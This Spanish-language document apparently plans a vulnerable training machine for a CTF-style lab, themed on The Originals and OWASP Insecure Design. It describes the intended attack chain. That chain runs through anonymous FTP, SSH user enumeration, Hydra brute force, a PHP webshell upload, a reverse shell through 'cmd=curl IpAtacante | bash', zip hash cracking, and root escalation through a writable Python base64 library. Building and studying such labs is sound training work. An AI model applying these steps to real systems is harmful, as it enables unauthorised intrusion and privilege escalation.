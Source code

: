 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.

El servicio **FTP** podrá ser accesible de forma anónima. Este servicio tendrá una configuración insegura.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante. Este servicio será vulnerable a enumeración de usuarios del sistema.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

****

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **documents**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una script en **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **elijah** podrá ver que puede visualizar un directorio **elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **documents** dentro de la web y verá que dentro de **documents** existe **elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, el atacante encontrará una imagen del personaje de **caroline**, esta imagen tendra el nombre de **caroline.jpg** y estara ubicado en **/var/www/**, esta imagen tendrá un fichero **zip** oculto, que se podrá extraer mediante la herramienta de **binwalk**, una vez el atacante ha extraido este fichero **zip** vera que al intentar **"unzipearlo"** este se encuentra protegido con contraseña, por lo cual se deberá extraer un **hash** de la contraseña mediante **zip2john** y despues crackear este **hash** con la herramienta de **John**.

Cuando se tenga la contraseña del fichero **zip**, lo descomprimimos y veremos un fichero con muchas contraseñas, las cuales estas contraseñas se utilizaran junto al usuario de **caroline** y la herramienta de **Hydra** para descubrir si alguna de estas contraseñas pertenece la usuaria **caroline** y es posible acceder por **SSH**.

Con **Hydra** descubrimos la contraseña de **caroline** e iniciamos sesión por **SSH** para obtener acceso a la maquina, una vez tenemos acceso a la maquina con la usuaria **caroline**, el atacante el atacante podrá visualizar la flag **user.txt** en el directorio **/home/caroline/**.
El atacante se pondrá a buscar la forma de escalar privilegios, despues de estar buscando encontrará que puede ejecutar el binario de **python3.10** sin contraseña como **root**. Además tambien encontrará en el **home** de la usuaria **caroline**, un fichero con nombre **codificadorNombres.py**, el cual tiene la función de mostrar el nombre que reciba como parametro a **base64**.

Si el atacante visualiza como funciona este script verá que se importan las librerias de **system** y **base64**, sabiendo esto, se pondra verificará y encontrará que los permisos de la libreria **base64.py** para **python3.10** tiene permisos para que **otros** puedan modificar el contenido de la libreria y guardarlo, por lo cual el atacante editará el fichero de **base64.py** y en la función de **b64enconde** que utiliza el **script** de **codificadorNombres.py** se añadira una linea para que cuando se ejecute el **script**, el usuario que ejecute el script **"spawnee"** una **bash**.

De esta forma como el atacante puede ejecutar el binario **python3.10** como **root**, ejecutará el **script codificadorNombres.py**  utilizando **python3.10** como el usuario **root**, de esta forma se **"spawneara"** una **bash** como **root**, por lo tanto el atacante habria escalado sus privilegios al usuario con más privilegios.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd 3.0.5* --> Para transferencia de archivos.
- **SSH**: *OpenSSH 7.2p2* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.52* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**

## WriteUp (vista atacante)

Realizamos un escaneo de los puertos de la maquina.

![Escaneo Puertos](../Imagenes/1_diseñoInseguro.jpg)

